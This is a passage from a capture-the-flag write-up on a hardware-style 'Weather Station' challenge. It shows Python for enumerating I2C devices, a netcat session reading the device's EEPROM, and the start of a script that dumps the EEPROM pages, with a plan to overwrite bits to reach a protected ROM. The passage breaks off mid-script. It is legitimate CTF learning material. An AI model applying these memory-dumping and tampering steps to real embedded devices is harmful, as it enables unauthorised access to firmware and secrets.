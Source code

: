 ```python
    return devices    
    
def dumpI2C(devices, filePath):    
    
    with open(filePath, "w") as outFile:    
        for i in devices:    
            outFile.write(f"{i} ({i - 10100000000})\n")    
    
foundDevices = enumerateI2C()    
dumpI2C(foundDevices, "i2cdump.txt") 
```

I started by checking the first found device:

```
$ nc weather.2022.ctfcompetition.com 1337
== proof-of-work: disabled ==
Weather Station
? w 10100000033 1 2
i2c status: transaction completed / ready
? r 10100000033 64
i2c status: transaction completed / ready
117 19 128 117 20 254 117 21 9 117 22 128 228 245 23 245
24 245 25 2 0 3 175 130 116 1 181 225 5 117 254 1
128 246 133 37 226 174 38 142 227 133 36 228 143 230 117 231
0 175 225 116 1 181 225 5 117 254 1 128 244 143 130 34 
-end
```

And the behaviour matches what is described in the EEPROM section of the datasheet!

## Dumping the EEPROM

Now we can simply create an image of the whole EEPROM to proceed with the exploitation.

_At this point I had an idea to overwrite some bits in the EEPROM (using the procedure described in the datasheet) to get the FLAGROM contents._

```python

EEPROM = 10100000033

def dumpEEPROM(filePath):

    log.info(f"dumping eeprom contents to {filePath}")
    with open(filePath, "wb") as outFile:

        pagelines = list()

        for i in range(64):

            t.recvuntil("?")
            log.info(f"reading page {i}/64...")
            t.sendline("w " + str(EEPROM) + " 1 " + str(i))
            t.recvuntil("?")
            t.sendline("r " + str(EEPROM) + " 64")
            t.recvline()
            for i in range(4):
                pagelines.append(t.recvline().decode().strip())

        for page in pagelines:

            if "end" in page:
                continue

            bytelist = [ int(i) for i in page.split(" ") ]
```